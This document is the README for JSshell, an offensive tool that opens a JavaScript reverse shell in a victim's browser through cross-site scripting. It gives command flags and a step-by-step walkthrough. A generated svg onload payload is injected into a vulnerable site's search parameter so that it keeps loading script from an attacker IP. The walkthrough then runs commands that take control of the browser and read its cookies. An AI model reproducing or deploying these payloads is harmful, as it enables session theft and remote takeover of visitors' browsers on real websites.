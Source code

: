 # JSshell (version 3.1)
JSshell - a JavaScript reverse shell. This is used to execute JS code remotely, exploit blind XSS, ...

This tool works for both Unix and Windows operating systems, and it can run on both Python 2 + Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from JShell).

### New in JSshell version 3.1
Updated in the new version of JShell 3.1:

- New JSshell command: `snippet` -> allows to write a snippet of javascript code

```sh
>>> snippet
Use CTRL+C to finish the snippet

function new() {
    new = 'New update: Support javascript snippet =)';
    confirm(new)
}
>>> 
```
- Fixed some bugs

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically be closed):  `-w`
#### Execute a command after get the shell:  `-c`

#### Example usages:
- `js.py`
- `js.py -g`
- `js.py -p 1234`
- `js.py -s 48.586.1.23 -g`
- `js.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is a step-by-step example for how to use JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   js.py
~# python3 js.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL):

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'controlled'
$ alert(test)
$
```
And the browser got an alert:  `controlled`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This is created by [shelld3v](https://github.com/shelld3v)!

